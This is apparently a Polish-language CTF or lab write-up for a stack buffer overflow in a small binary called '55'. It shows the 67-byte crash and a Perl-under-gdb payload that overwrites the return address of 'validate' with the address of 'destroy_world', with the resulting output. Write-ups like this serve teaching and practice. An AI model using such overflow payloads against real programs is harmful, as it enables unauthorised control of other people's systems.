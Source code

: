
-------------------------

Przy przekazaniu argumentu do wykonania programu, w zależności od jego długości można osiągnąć dwa rezultaty:

1. Zwykła informacja o błędnym tokenie – argument o długości 66.
```bash
$ ./55 111111111111111111111111111111111111111111111111111111111111111111
To continue you must provide security access token (21 digits)
The access token you provided is invalid. Good bye.
Finished
```

2. Segmentation fault – argument o długości 67.
```bash
root@159dbf638a64:/workspace# ./55 1111111111111111111111111111111111111111111111111111111111111111111
To continue you must provide security access token (21 digits)
111111111111111111111111111111111111111111111111111111
Segmentation fault
```

Drugi z wyników jest efektem nadpisania części programu poprzez wyjście poza przestrzeń adresową przeznaczoną na zmienne.



## Exploit
Napisanie exploita, po uprzedniej analizie pliku, wiąże się z przekazaniem na stos takich parametrów, które pozwolą nam na manipulację działania programu, w momencie wywołania programu.

Atak opiera się na podaniu argumentu o długości przekraczającej wielkość bufora, nadpisaniu adresu powrotu funkcji `validate`, a potem przestrzeni adresowej z parametrami. Daje to możliwość manipulacji z jakimi parametrami zostaną wykonane kolejne funkcje.

Do osiągnięcia celu zostały podjęte kolejne kroki:

1. Nadpisanie adresu powrotu adresem funkcji `destroy_world`.

   Wykorzystano język [Perl](https://en.wikipedia.org/wiki/Perl). Podczas wywołania debuggera należało dokleić kawałek kodu:
    ```bash
    gdb --args 55 `perl -e'print "1"x67 . "\xd7\x85\x04\x08"'`
    ```

   Podawane jest 67 jedynek, a następnie adres funkcji `destroy world` (0x080485d7) zapisany bajtami zaczynając od najmniej znaczących (konwencja little-endian).

   **Rezultat**:
   
   ```
   (gdb) r
   Starting program: /workspace/55 1111111111111111111111111111111111111111111111111111111111111111111ׅ
   warning: Error disabling address space randomization: Operation not permitted
   To continue you must provide security access token (21 digits)
   BAM!
   /bin/bash
   During startup program terminated with signal SIGSEGV, Segmentation fault.
   ```
